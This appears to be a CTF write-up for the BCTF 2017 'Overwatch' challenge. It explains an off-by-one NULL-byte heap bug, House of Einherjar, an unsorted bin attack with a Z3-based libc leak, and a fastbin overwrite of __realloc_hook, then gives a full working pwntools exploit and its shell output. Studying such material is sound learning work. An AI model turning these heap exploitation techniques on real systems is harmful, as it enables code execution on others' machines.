

**Points:** 909
**Solves:** 3
**Category:** Exploitation 

> [overwatch](../binaries/overwatch)

> [libc-2.23.so](../binaries/libc-2.23.so)


overwatch: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=93bcce5139c1227a42aa9ec4ba20a82f0222795c, stripped



gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : disabled
RELRO     : FULL


## Intro
**Overwatch** was a 909 point exploitation challenge in **BCTF 2017 Quals** that was released a little after the halfway point in the competition. It required the use of multiple heap exploitation techniques and was solved by only 3 teams. Unfortunately, we did not look at this challenge until late in the game and were unable to finish our exploit in time. 
It was only after the CTF ended that I managed to solve this with the help of [brieflyx](http://brieflyx.me/) who gave me some additional guidance on how to get the leak and re-affirmed some of the ideas I had come up with for my exploit plan. 
Although I didn't solve this challenge until after the CTF finished, I thought it'd still be worth it to do a write-up because the way to get the leak is actually pretty neat and demonstrates several heap exploitation techniques that I've been meaning to write about for a while. So without further ado, __let's get started!__

## Reversing
The binary is a menu-driven program that allows users to perform multiple actions for 15 rounds. 


Round: 0
1. Gather your teammate I
2. Gather your teammate II
3. Change your name
4. Change your email
5. Process this round
6. Exit
>


Each time a user begins a new round, 4 bytes from `/dev/urandom` are generated and placed in a global variable in the **.BSS** named `randBytes`. These 4 pseudorandom bytes are subsequently used to determine which map and hero gets printed out whenever the user calls option `1` or option `2` from the main menu.


> 1
Your teammate want to play on Volskaya Industries
Your teammate is choosing hero ... Lucio


`randBytes` is also used to determine the levels for teammate I and II, that are printed out when the user selects option `5`. 


> 5
Your teammate I has 615 level
Your teammate II has 775 level
TEAM KILL
Round: 1
 

**Option `1` uses the high 2 bytes of `randBytes` to determine the map and hero selected for teammate I, and Option `2` uses the lower 2 bytes of `randBytes` to determine the map and hero for teammate II.**

Remember this, because we will use these two options to help us get some infoleaks later.

Additionally, we can select options `3` and `4` to call `updatePtr()` and change our name and email, respectively. 

The pseudo-code for `updatePtr()` is as follows:

__int64 __fastcall updatePtr(void *ptr)
{
  int size; // eax@1
  int size_; // ebx@1
  void *chunk; // rax@1
  __int64 chunk_; // rbp@1
  __int64 result; // rax@3
  __int64 v1; // rcx@3
  __int64 buf; // [sp+0h] [bp-3A8h]@1
  __int64 cookie; // [sp+388h] [bp-20h]@1

  cookie = *MK_FP(__FS__, 40LL);
  size = getInput((__int64)&buf, 0x37F);
  size_ = size;
  chunk = realloc(ptr, size);
  chunk_ = (__int64)chunk;
  if ( chunk )
    memcpy(chunk, &buf, size_ + 1);
  result = chunk_;
  v1 = *MK_FP(__FS__, 40LL) ^ cookie;
  return result;
}


Basically, our name and email are stored in heap chunks that are allocated via `realloc()`, and a pointer to each heap chunk is stored in the **.BSS**:

.bss:0000000000602020 ; _IO_FILE *stdin
.bss:0000000000602020 stdin           dq ?            ; DATA XREF: getChoice:loc_4009B4r
.bss:0000000000602020                                 ; getInput:loc_400A27r ...
.bss:0000000000602020                                 ; Copy of shared data
.bss:0000000000602028 byte_602028     db ?            ; DATA XREF: sub_4008F0r
.bss:0000000000602028                                 ; sub_4008F0+13w
.bss:0000000000602029                 align 10h
.bss:0000000000602030 ; char *emailPtr
.bss:0000000000602030 emailPtr        dq ?            ; DATA XREF: main2+119r
.bss:0000000000602030                                 ; main2+125w
.bss:0000000000602038 ; char *namePtr
.bss:0000000000602038 namePtr         dq ?            ; DATA XREF: main2+CBr
.bss:0000000000602038                                 ; main2+D7w
.bss:0000000000602040 dword_602040    dd ?            ; DATA XREF: main2+1Bw
.bss:0000000000602044 randBytes       dd ?            ; DATA XREF: main2+15w
.bss:0000000000602044                                 ; main2:loc_400F17r ...
.bss:0000000000602048 nullByte        dd ?            ; DATA XREF: main2+1w
.bss:000000000060204C                 align 10h
.bss:0000000000602050 changeEmail_status dd ?         ; DATA XREF: main2+43w
.bss:0000000000602050                                 ; main2:loc_400F73r ...
.bss:0000000000602054 changeName_status dd ?          ; DATA XREF: main2+39w
.bss:0000000000602054                                 ; main2:loc_400F25r ...
.bss:0000000000602058 wins            dd ?            ; DATA XREF: main2+2Fw
.bss:0000000000602058                                 ; main2+203w ...
.bss:000000000060205C rounds          dd ?            ; DATA XREF: main2+25w
.bss:000000000060205C                                 ; main2:loc_400EC9r ...
.bss:000000000060205C _bss            ends


We can only change our name and email **once per round** and this check is done by updating the `changeEmail_status` and `changeName_status` globals.

Going back to the `updatePtr()` function, though, can you spot the vuln? 

There is a subtle **single NULL byte off-by-one** vulnerability that is introduced by the `memcpy()`.
**This means that if we size a heap chunk appropriately, a NULL byte can potentially overflow into the LSB of the size metadata field of an adjacent heap chunk.** 

Although a single NULL byte doesn't seem like much, this error actually opens up many **ptmalloc2** heap attacks, some of which we will use to exploit this program and gain code execution.

## Infoleak Plan
Our first order of business to exploit this program is to bypass **ASLR** by getting some sort of infoleak.
Getting a leak in this program is tricky though, because while we can allocate heap chunks for our name and email, we can't actually print out the contents of these chunks.

To make matters worse, there aren't any additional vulnerabilities besides the **off-by-one** that could be abused to get an easy heap or libc leak (that I could see, anyway).

So without the ability to print out anything useful, how can we get a leak?

This is where things get interesting.

Remember the `randBytes` global we mentioned earlier?

Although `randBytes` isn't directly printed out, it is used to determine the levels, maps, and heroes of each teammate that ARE.
**If we can overwrite the data in `randBytes` with part of a libc address, we can use dynamic constraint solving based on the levels, maps, and heroes of each teammate that are printed out to determine the bytes we've overwritten `randBytes` with.** 

One heap exploitation technique that would allow us to do this, is the **unsorted bin attack** technique.

In an **unsorted bin attack**, we overwrite the **BK** pointer of a chunk in the unsorted bin with a controlled value, so that when this chunk is removed from the unsorted bin, it will write `&unsorted_bin` to `BK+0x10`.

*From malloc.c:*

/* remove from unsorted list */
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
  

For our exploit we can use this attack to overwrite the `BK` pointer with an address in the **.BSS** so that part of `&unsorted_bin` overwrites `randBytes`.

In order to be able to overwrite the `BK` pointer of a chunk in the unsorted bin though,  we first need to produce 2 overlapping chunks. This will allow us to corrupt the contents of a free chunk without needing an overflow or a  **use-after-free (UAF)** vulnerability!

To achieve this overlap, we can perform another heap exploitation technique called **House of Einherjar**.  

## House of Einherjar attack

**House of Einherjar** is a really cool heap exploitation technique that my teammate [uafio](http://uaf.io) taught me. 

**House of Einherjar** works by corrupting the size field of an allocated chunk and flipping its `prev_inuse` bit off to trick it into thinking its previous chunk is free. Then, when this chunk with the corrupted size is `free()`'d, because its `prev_inuse` bit is now off, it will attempt to perform a backwards consolidation with a fake chunk, using its `prev_size` field to calculate the location of this fake free chunk.  

In GDB, this is what the heap looks like right before we trigger the NULL byte overflow: 

gdb-peda$ x/100xg 0x00603000
0x603000:       0x0000000000000000      0x0000000000000091 
0x603010:       0x00007ffff7dd1b78      0x00007ffff7dd1b78 <--A (free)
0x603020:       0x4141414141414141      0x4141414141414141
0x603030:       0x4141414141414141      0x4141414141414141
0x603040:       0x4141414141414141      0x4141414141414141
0x603050:       0x4141414141414141      0x4141414141414141
0x603060:       0x4141414141414141      0x4141414141414141
0x603070:       0x4141414141414141      0x4141414141414141
0x603080:       0x4141414141414141      0x4141414141414141
0x603090:       0x0000000000000090      0x0000000000000090
0x6030a0:       0x4242424242424242      0x4242424242424242 <--B
0x6030b0:       0x4242424242424242      0x4242424242424242
0x6030c0:       0x4242424242424242      0x4242424242424242
0x6030d0:       0x4242424242424242      0x4242424242424242
0x6030e0:       0x4242424242424242      0x4242424242424242
0x6030f0:       0x4242424242424242      0x4242424242424242
0x603100:       0x4242424242424242      0x4242424242424242
0x603110:       0x4242424242424242      0x4242424242424242
0x603120:       0x0000000000000000      0x0000000000000101
0x603130:       0x4343434343434343      0x4343434343434343 <--C
0x603140:       0x4343434343434343      0x4343434343434343
0x603150:       0x4343434343434343      0x4343434343434343
0x603160:       0x4343434343434343      0x4343434343434343
0x603170:       0x4343434343434343      0x4343434343434343
0x603180:       0x4343434343434343      0x4343434343434343
0x603190:       0x4343434343434343      0x4343434343434343
0x6031a0:       0x4343434343434343      0x4343434343434343
0x6031b0:       0x4343434343434343      0x4343434343434343
0x6031c0:       0x4343434343434343      0x4343434343434343
0x6031d0:       0x4343434343434343      0x4343434343434343
0x6031e0:       0x4343434343434343      0x4343434343434343
0x6031f0:       0x4343434343434343      0x4343434343434343
0x603200:       0x4343434343434343      0x4343434343434343
0x603210:       0x4343434343434343      0x0043434343434343
0x603220:       0x0000000000000000      0x0000000000020de1 <--top chunk


After inserting the poisoned NUL byte and crafting the fake prev_size, the heap looks like this:

gdb-peda$ x/100xg 0x00603000
0x603000:       0x0000000000000000      0x0000000000000091
0x603010:       0x00007ffff7dd1b78      0x00007ffff7dd1b78 <--A (free)
0x603020:       0x4141414141414141      0x4141414141414141
0x603030:       0x4141414141414141      0x4141414141414141
0x603040:       0x4141414141414141      0x4141414141414141
0x603050:       0x4141414141414141      0x4141414141414141
0x603060:       0x4141414141414141      0x4141414141414141
0x603070:       0x4141414141414141      0x4141414141414141
0x603080:       0x4141414141414141      0x4141414141414141
0x603090:       0x0000000000000090      0x0000000000000090
0x6030a0:       0x4242424242424242      0x4242424242424242 <--B
0x6030b0:       0x4242424242424242      0x4242424242424242
0x6030c0:       0x4242424242424242      0x4242424242424242
0x6030d0:       0x4242424242424242      0x4242424242424242
0x6030e0:       0x4242424242424242      0x4242424242424242
0x6030f0:       0x4242424242424242      0x4242424242424242
0x603100:       0x4242424242424242      0x4242424242424242
0x603110:       0x4242424242424242      0x4242424242424242
0x603120:       0x0000000000000120      0x0000000000000100 <--fake prevsize, corrupt size
0x603130:       0x4343434343434343      0x4343434343434343 <--C
0x603140:       0x4343434343434343      0x4343434343434343
0x603150:       0x4343434343434343      0x4343434343434343
0x603160:       0x4343434343434343      0x4343434343434343
0x603170:       0x4343434343434343      0x4343434343434343
0x603180:       0x4343434343434343      0x4343434343434343
0x603190:       0x4343434343434343      0x4343434343434343
0x6031a0:       0x4343434343434343      0x4343434343434343
0x6031b0:       0x4343434343434343      0x4343434343434343
0x6031c0:       0x4343434343434343      0x4343434343434343
0x6031d0:       0x4343434343434343      0x4343434343434343
0x6031e0:       0x4343434343434343      0x4343434343434343
0x6031f0:       0x4343434343434343      0x4343434343434343
0x603200:       0x4343434343434343      0x4343434343434343
0x603210:       0x4343434343434343      0x0043434343434343
0x603220:       0x0000000000000000      0x0000000000020de1 <--top chunk


And finally, after free-ing C:

gdb-peda$ x/100xg 0x00603000
0x603000:       0x0000000000000000      0x0000000000021001 <--top chunk
0x603010:       0x00007ffff7dd1b78      0x00007ffff7dd1b78 <--A, C (free)
0x603020:       0x4141414141414141      0x4141414141414141
0x603030:       0x4141414141414141      0x4141414141414141
0x603040:       0x4141414141414141      0x4141414141414141
0x603050:       0x4141414141414141      0x4141414141414141
0x603060:       0x4141414141414141      0x4141414141414141
0x603070:       0x4141414141414141      0x4141414141414141
0x603080:       0x4141414141414141      0x4141414141414141
0x603090:       0x0000000000000090      0x0000000000000090
0x6030a0:       0x4242424242424242      0x4242424242424242 <--B
0x6030b0:       0x4242424242424242      0x4242424242424242
0x6030c0:       0x4242424242424242      0x4242424242424242
0x6030d0:       0x4242424242424242      0x4242424242424242
0x6030e0:       0x4242424242424242      0x4242424242424242
0x6030f0:       0x4242424242424242      0x4242424242424242
0x603100:       0x4242424242424242      0x4242424242424242
0x603110:       0x4242424242424242      0x4242424242424242
0x603120:       0x0000000000000120      0x0000000000000100 
0x603130:       0x4343434343434343      0x4343434343434343
0x603140:       0x4343434343434343      0x4343434343434343
0x603150:       0x4343434343434343      0x4343434343434343
0x603160:       0x4343434343434343      0x4343434343434343
0x603170:       0x4343434343434343      0x4343434343434343
0x603180:       0x4343434343434343      0x4343434343434343
0x603190:       0x4343434343434343      0x4343434343434343
0x6031a0:       0x4343434343434343      0x4343434343434343
0x6031b0:       0x4343434343434343      0x4343434343434343
0x6031c0:       0x4343434343434343      0x4343434343434343
0x6031d0:       0x4343434343434343      0x4343434343434343
0x6031e0:       0x4343434343434343      0x4343434343434343
0x6031f0:       0x4343434343434343      0x4343434343434343
0x603200:       0x4343434343434343      0x4343434343434343
0x603210:       0x4343434343434343      0x0043434343434343
0x603220:       0x0000000000000000      0x0000000000020de1

gdb-peda$ p main_arena.top     
$3 = (mchunkptr) 0x603000


Notice that C has been backwards consolidated into the old A chunk and that it is now the new top chunk, even though B is still allocated after it! 

**This means that we can now allocate another chunk that overlaps with B to overwrite any data in B's chunk!**

For a more detailed explanation on how **House of Einherjar** works, feel free to check out [uafio's](http://uaf.io) stream about the technique [here](https://www.youtube.com/watch?v=N9-xSFMNVpg) and [here](https://www.youtube.com/watch?v=uC81mV--pEg).

## Unsorted bin attack
Now that we have overlapping chunks, we will want to free **B** and place it in the unsorted bin. However, there are a few problems in the heap now that we need to fix in order to successfully perform this step.
 
The `prev_inuse` bit for both B @ `0x603090` and the old C chunk are now both flipped off. This is problematic, because this means it will attempt to perform additional chunk merging, which we don't want.

So, we will fix this before free-ing B. 

    payload  = "D"*8*16   
    payload += "E"*8
    payload += p64(0x91)
    payload += "F"*8*16
    payload += p64(0xb00bface)  
    payload += p64(0x101) # flip prev_inuse bit back on to avoid causing double free 
    changeName(payload)   # total payload size = 288 = 0x120


Now that we've restored these bits, we can successfully free B into the unsorted bin.

Next we will want to use our overlapping chunks to overwrite the `BK` pointer of B so that it points to `target_address-0x10`.

Since we already know the MSB of libc will always be `0x7f`, we can skip leaking it, and instead leak the next 4 bytes of the libc address by overwriting `BK` with `&randBytes-0xd`. 


gdb-peda$ x/8xg 0x602040-0xd
0x602033:       0x0000000000000000      0x0000000000000000 
0x602043:       0x0000007e9f637500      0x0000000000000000 <--randBytes @ 0x602044
0x602053:       0x0000000000000100      0x0000000000000200
0x602063:       0x0000000000000000      0x0000000000000000


After this is done, we can simply realloc the unsorted bin chunk to trigger the overwrite.


gdb-peda$ x/8xg 0x602044
0x602044:       0x0000007ffff7dd1b      0x0000000100000000 <--partial libc addr
0x602054:       0x0000000000000001      0x0000000000000004


## Libc leak via constraint solving
Now that we've written a partial libc address into `randBytes`, we can leak it using some Z3 magic. 

To do this, I added some Z3 constraints based on the outputted map, hero and level of each teammate in order to dynamically find which bytes would satisfy those constraints and produce the same output.


for target in [teammate1, teammate2]:
    s.add(target["addr"]-(13*((0x4ec5*target["addr"]) >> 18)) == maps[target["map_x"]])
    if target["hero_x"] in ["D.VA","Orisa","Reinhardt","Roadhog","Winston","Zarya"]:
        s.add(target["addr"] & 3 == 2)
        s.add(target["addr"]-(6*((0xaaab*target["addr"]) >> 18)) == heroes[target["hero_x"]])
    elif target["hero_x"] in ["Genji","Mccree","Pharah","Reaper","76","Sombra","Tracer"]:
        s.add(target["addr"] & 3 == 3)
        s.add(target["addr"] % 7 == heroes[target["hero_x"]])
    elif target["hero_x"] in ["Ana","Lucio","Mercy","Symmetra","Zenyatta"]:
        s.add(target["addr"] & 3 == 1)
        s.add(target["addr"]-(5*((0xcccd*target["addr"]) >> 18)) == heroes[target["hero_x"]])
    elif target["hero_x"] in ["Baston","Hanzo","Junkrat","Mei","Turret","Widowmaker"]:
        s.add(target["addr"] & 3 == 0)
        s.add(target["addr"]-(6*((0xaaab*target["addr"]) >> 18)) == heroes[target["hero_x"]])


I then solved these constraints to discover the bytes written to `randBytes`, which I subsequently used to calculate a final libc base address.

## Fastbin attack
Now that we have the leak, the rest of the exploit is pretty straight forward.

In order to hijack the control flow of this program, we will want to overwrite a function pointer that gets called. 
We will overwrite `__realloc_hook`, since **full RELRO** is enabled, preventing us from overwriting a **GOT** entry.

To perform this overwrite, we can use a **fastbin attack** to overwrite the `FD` pointer of a free-d fast chunk in order to get `malloc()` to return an almost-arbitrary address of our choosing. 

As I've mentioned in previous posts, we can abuse the fact that we can point `FD` to misaligned addresses to get around the size check that `malloc()` does. 

This looks like a good target:

gdb-peda$ p &__realloc_hook
$6 = (void *(**)(void *, size_t, const void *)) 0x7ffff7dd1b08 <__realloc_hook>

gdb-peda$ x/8xg 0x7ffff7dd1b08-0x20+0x5
0x7ffff7dd1aed <_IO_wide_data_0+301>:   0xfff7dd0260000000      0x000000000000007f
0x7ffff7dd1afd: 0xfff7a93270000000      0x000000000000007f
0x7ffff7dd1b0d <__realloc_hook+5>:      0x0000000000000000      0x0000000000000000
0x7ffff7dd1b1d: 0x0000000000000000      0x0000603100000000


After overwriting the `FD` pointer, to get `malloc()` to return our desired address, we need to allocate **two** `0x68` sized chunks.

However, to do this in the program, we will need to free another chunk after allocating the first one, since after allocating the first `0x68` sized chunk, both our `namePtr` and `emailPtr` globals will be populated and so we will be unable to allocate another chunk until one of these 2 pointers is `free()`'d. 

The state of our unsorted bin right now is so messed up though that if we free the `namePtr` chunk again in its current state, it will fail a check and trigger a "corrupted unsorted chunks" error. 

*From malloc.c:*

 bck = unsorted_chunks(av);
  fwd = bck->fd;
  if (__glibc_unlikely (fwd->bk != bck))
{
  errstr = "free(): corrupted unsorted chunks";
  goto errout;
}


If we look at the current state of our heap, we can see why we won't pass this check. 

bins = {0x603090, 0x602033, 0x7ffff7dd1b88 <main_arena+104>, 0x7ffff7dd1b88 <main_arena+104>, 0x7ffff7dd1b98 <main_arena+120>, 

gdb-peda$ x/32xg 0x603090
0x603090:       0x4949494949494949      0x0000000000000071
0x6030a0:       0x00007ffff7dd1aed      0x4949494949494949 <--fails check!
0x6030b0:       0x4949494949494949      0x4949494949494949
0x6030c0:       0x4949494949494949      0x4949494949494949
0x6030d0:       0x4949494949494949      0x4949494949494949
0x6030e0:       0x4949494949494949      0x4949494949494949
0x6030f0:       0x4949494949494949      0x4949494949494949
0x603100:       0x0049494949494949      0x0000000000000031


`fwd` is currently `0x604090` and it will compare `fwd+0x18`, or `0x4949494949494949` to `0x00007ffff7dd1b78`, and if they are not equal, it will trigger a corrupted unsorted chunk error. 

Therefore, to pass this check, we will write the following payload to `0x6030a0`. 

payload  = "J"*8
payload += p64(unsortedbin) # to pass unsorted bin check!
payload += "J"*(0x67-0x10) 
changeEmail(payload) # place target at head of fastbin 



gdb-peda$ x/32xg 0x603090
0x603090:       0x4949494949494949      0x0000000000000071
0x6030a0:       0x4a4a4a4a4a4a4a4a      0x00007ffff7dd1b78 <--passes check!
0x6030b0:       0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x6030c0:       0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x6030d0:       0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x6030e0:       0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x6030f0:       0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x603100:       0x004a4a4a4a4a4a4a      0x0000000000000031


Now that we can successfully free the `namePtr` chunk, we can allocate another fast chunk and control the data in it to overwrite `__realloc_hook` with our **"magic" one gadget RCE** addr.

Finally, we call `realloc()` again to get a shell.

Putting everything together, we can get the flag using the following exploit.

## Exploit

#!/usr/bin/env python

from pwn import *
import sys, z3

#++++++++++++++++++
# Exploit plan:     
#  
# 1. Create overlapping chunks by using 1st part of House of Einherjar technique 
#   1.1 use off-by-one vuln to insert poisoned NUL byte into the LSB of target chunk
#   1.2 craft appropriate fake prev_size of target chunk while doing 1.1
#   1.3 free target chunk 
# 2. Perform unsorted bin attack to write main_arena.bins[0] to .BSS                     
#   2.1 re-craft heap to avoid triggering any errors when doing step 2.2
#   2.2 free target small chunk and place it in unsorted bin                  
#   2.3 overwrite BK ptr of target chunk
#   2.4 realloc target chunk to perform targeted write
# 3. Leak libc by solving dynamic constraints based on teammate levels, maps, heroes  
# 4. Perform fastbin attack to overwrite __realloc_hook w/ desired ptr
#   4.1 place appropriately sized fast chunk in fastbin 
#   4.2 corrupt FD of fast chunk from 4.1
#   4.3 realloc() 3 times, using the 3rd call to overwrite __realloc_hook
# 5. Realloc() a chunk to call our desired ptr   
#++++++++++++++++++

def gatherTeammate(target):
    if target == "hi":
        r.sendlineafter(">","1")
    else:
        r.sendlineafter(">","2")
    return r.recvuntil("Round:")

def changeName(name):
    r.sendlineafter(">", "3")
    r.sendlineafter(":", name)

def changeEmail(email):
    r.sendlineafter(">", "4")
    r.sendlineafter(":", email)

def processRound():
    r.sendlineafter(">", "5")

def exploit(r):
    libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")

    randBytes_addr = 0x602040 

    maps={"Temple of Anubis":0, "Hanamura":1, "Volskaya Industries":2,\
          "Watchpoint: Gibraltar":3, "Dorado":4, "Route 66":5,\
          "Lijiang Tower":6, "Ilios":7, "Nepal":8, "King'S Row":9,\
          "Numbani":10, "Hollywood":11, "Eichenwalde":12}
        
    heroes={"D.VA":5,"Orisa":1,"Reinhardt":2,"Roadhog":0,"Winston":3,"Zarya":4,\
            "Genji":0,"Mccree":1,"Pharah":2,"Reaper":3,"76":4,"Sombra":5,"Tracer":6,\
            "Ana":3,"Lucio":0,"Mercy":1,"Symmetra":4,"Zenyatta":2,\
            "Baston":3,"Hanzo":2,"Junkrat":5,"Mei":1,"Turret":4,"Widowmaker":0}
    
    # Initialize some Z3 constraints
    s = z3.Solver()
    hi_addr = z3.BitVec('hi_addr',32)
    lo_addr = z3.BitVec('lo_addr',32)
    s.add(hi_addr > 0x0)
    s.add(hi_addr < 0x10000)
    s.add(lo_addr > 0x0)
    s.add(lo_addr < 0x10000)
 
    # Step 1. -- Create overlapping chunks  
    log.info("starting House of Einherjar attack...")
    log.info("grooming heap...")
    changeName("A"*0x80)  # A 
    changeEmail("B"*0x80) # B
    
    processRound()
    
    changeName("C"*0xef) # free A + malloc C 
    # Step 1.2.
    fake_prev_size = p64(0x120)
    # Step 1.1.
    changeEmail("B"*8*16 + fake_prev_size) # poisoned NUL byte appended 
    log.success("poisoned NUL byte inserted!")  
    processRound()
    # Step 1.3.
    changeName("") # merge A + C  
    log.success("overlapping chunks created!\n\n") 
    processRound()

    # Step 2. -- Unsorted bin attack  
    log.info("starting Unsorted Bin Attack...")
    # Step 2.1.
    payload  = "D"*8*16   
    payload += "D"*8
    payload += p64(0x91)
    payload += "D"*8*16
    payload += p64(0xb00bface) 
    payload += p64(0x101) # flip prev_inuse bit back on to avoid causing double free 
    changeName(payload)   # total payload size = 288 = 0x120
    
    # Step 2.2.
    changeEmail("") # free(B)    
    
    processRound()
    # Step 2.3.
    payload  = "D"*8*16   
    payload += "D"*8
    payload += p64(0x91)
    payload += "D"*8 
    payload += p64(randBytes_addr-0xd) # BK ptr
    payload += "D"*8*14
    payload += p64(0xb00bface)  
    payload += p64(0x101)      
    changeName(payload)  
    # Step 2.4.
    changeEmail("G"*0x80) # realloc out of unsorted bin 
    log.success("Unsorted Bin Attack succeeded!\n\n") 
    
    # Step 3. -- Leak libc
    log.info("starting infoleaks...")
    teammate1 = {}
    teammate2 = {}
    leak   = gatherTeammate("hi").split("\n")
    teammate1["map_x"]  = leak[0].split("play on ")[1]
    teammate1["hero_x"] = leak[1].split(" ")[-1]
    teammate1["addr"] = hi_addr
    log.info("teammate 1 map found: "+teammate1["map_x"])
    log.info("teammate 1 hero found: "+teammate1["hero_x"])

    leak2  = gatherTeammate("lo").split("\n") 
    teammate2["map_x"]  = leak2[0].split("play on ")[1]
    teammate2["hero_x"] = leak2[1].split(" ")[-1]
    teammate2["addr"] = lo_addr
    log.info("teammate 2 map found: "+teammate2["map_x"])
    log.info("teammate 2 hero found: "+teammate2["hero_x"])
     
    for target in [teammate1, teammate2]:
        s.add(target["addr"]-(13*((0x4ec5*target["addr"]) >> 18)) == maps[target["map_x"]])
        if target["hero_x"] in ["D.VA","Orisa","Reinhardt","Roadhog","Winston","Zarya"]:
            s.add(target["addr"] & 3 == 2)
            s.add(target["addr"]-(6*((0xaaab*target["addr"]) >> 18)) == heroes[target["hero_x"]])
        elif target["hero_x"] in ["Genji","Mccree","Pharah","Reaper","76","Sombra","Tracer"]:
            s.add(target["addr"] & 3 == 3)
            s.add(target["addr"] % 7 == heroes[target["hero_x"]])
        elif target["hero_x"] in ["Ana","Lucio","Mercy","Symmetra","Zenyatta"]:
            s.add(target["addr"] & 3 == 1)
            s.add(target["addr"]-(5*((0xcccd*target["addr"]) >> 18)) == heroes[target["hero_x"]])
        elif target["hero_x"] in ["Baston","Hanzo","Junkrat","Mei","Turret","Widowmaker"]:
            s.add(target["addr"] & 3 == 0)
            s.add(target["addr"]-(6*((0xaaab*target["addr"]) >> 18)) == heroes[target["hero_x"]])
    
    processRound()

    leak_3  = r.recvuntil("Round:").split("\n")
    hi_lvl  = int(leak_3[0].split(" ")[5])
    lo_lvl  = int(leak_3[1].split(" ")[4])
    
    s.add(hi_addr%0x3e8 == hi_lvl)
    s.add(lo_addr%0x3e8 == lo_lvl)
    s.add(( hi_addr >> 16) - 1000*(((hi_addr*0x10000)+lo_addr)/0x3e80000) + ((hi_addr*0x10000)+lo_addr) % 0xffff % 0x3e8 <= 0x681)
    if s.check() == z3.sat:
        m = s.model() 
        libc_leak = (0x7f0000000000+(m[hi_addr].as_long()*0x1000000)+m[lo_addr].as_long()*0x100) 
        libc_base = libc_leak-0x3c3b00 
        realloc_hook = libc_base+libc.symbols["__realloc_hook"] 
        unsortedbin = libc_base+0x3c3b78
        one_shot = libc_base+0x4526a
        #log.success("libc_leak at: "+hex(libc_leak))
        log.success("libc_base at: "+hex(libc_base))    
        log.success("__realloc_hook at: "+hex(realloc_hook))
        log.success("unsorted bin at: "+hex(unsortedbin))
        log.success("one_shot at: "+hex(one_shot)+"\n\n")
    else:
        print "unsat! try again."
        sys.exit(-1)

    # Step 4. -- Fastbin attack
    log.info("starting Fastbin Attack...")
    changeEmail("H"*0x67) # allocate fast chunk
    
    processRound()
    # Step 4.1.
    changeEmail("") 
    # Step 4.2.
    payload  = "I"*8*17
    payload += p64(0x71) # fast chunk size
    payload += p64(realloc_hook-0x20+0x5) 
    payload += "I"*8*11 # to avoid placing fastbin chunk in unsorted bin
    payload += "I"*7 
    changeName(payload) ## corrupt fast chunk's FD ptr
    
    processRound()
    
    # Step 4.3.
    log.info("restoring corrupted unsorted chunk's BK ptr...")
    payload  = "J"*8
    payload += p64(unsortedbin) # to satisfy `fwd->bk = bck` constraint
    payload += "J"*(0x67-0x10) 
    changeEmail(payload) # place target at head of fastbin
    changeName("") 
    
    processRound()
   
    changeName("A"*0xb+p64(one_shot)+"C"*(0x67-0x8-0xb))    
    log.success("Fastbin Attack succeeded!\n\n")    
    
    # Step 5. -- Win!
    changeEmail("") 
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        token = "yuRRme9y3wc5ZCHyhckEBnRsR3ueR8M8"
        r.sendline(token)   
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/bctf17/overwatch/overwatch'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)


➜  overwatch python solve.py 35.167.163.161 16969
[*] For remote: solve.py HOST PORT
[+] Opening connection to 35.167.163.161 on port 16969: Done
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] starting House of Einherjar attack...
[*] grooming heap...
[+] poisoned NUL byte inserted!
[+] overlapping chunks created!
    
[*] starting Unsorted Bin Attack...
[+] Unsorted Bin Attack succeeded!
    
[*] starting infoleaks...
[*] teammate 1 map found: Dorado
[*] teammate 1 hero found: Roadhog
[*] teammate 2 map found: Temple of Anubis
[*] teammate 2 hero found: Tracer
[+] libc_base at: 0x7f1f327d6000
[+] __realloc_hook at: 0x7f1f32b99b08
[+] unsorted bin at: 0x7f1f32b99b78
[+] one_shot at: 0x7f1f3281b26a
    
[*] starting Fastbin Attack...
[*] restoring corrupted unsorted chunk's BK ptr...
[+] Fastbin Attack succeeded!
    
[*] Switching to interactive mode
 $ cat flag
bctf{0ad5c4cb31a4bd7961d4aafa7f6975d8}


### Thanks
Thanks again to [brieflyx](http://brieflyx.me/) for his help and to [vakzz](https://devcraft.io) for lending a second pair of eyes to look at this task. 
Also to [uafio](http://uaf.io) and [grazfather](http://grazfather.io) for taking away my free time by making me do [pwnable.tw](http://pwnable.tw) challenges. 
